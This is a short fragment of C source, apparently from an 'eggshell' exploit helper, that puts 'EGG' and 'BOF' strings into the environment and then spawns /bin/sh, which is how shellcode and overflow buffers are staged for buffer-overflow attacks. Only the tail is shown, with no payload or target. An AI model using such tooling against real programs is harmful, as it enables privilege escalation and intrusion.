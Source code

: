 ```
    memcpy(egg,"EGG=",4);
    putenv(egg);

    memcpy(bof,"BOF=",4);
    putenv(bof);
    system("/bin/sh");
}

void usage(void) {
    (void)fprintf(stderr,
        "usage: eggshell [-a ] [-b ] [-e ] [-o ]\n");
}
```